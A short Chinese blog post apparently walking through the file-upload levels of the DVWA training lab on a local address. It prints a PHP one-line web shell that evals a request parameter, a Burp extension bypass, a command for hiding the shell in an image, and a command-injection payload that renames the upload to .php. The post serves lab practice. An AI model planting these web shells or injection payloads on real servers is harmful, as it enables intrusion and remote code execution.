 ```yaml
---
layout: post
title: File Upload
subtitle: File Upload
date: 2024-11-03 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
---
```


# 文件上传漏洞
### LOW

the.php

```php
<?php eval($_GET['bckdor'])?>
```

构造url：http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=

```php
phpinfo();
system('ls');
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```
### MEDIUM

将the.php改为the.jpg

burpsuit抓取request，修改文件后缀
### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用[Command Injection]

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```

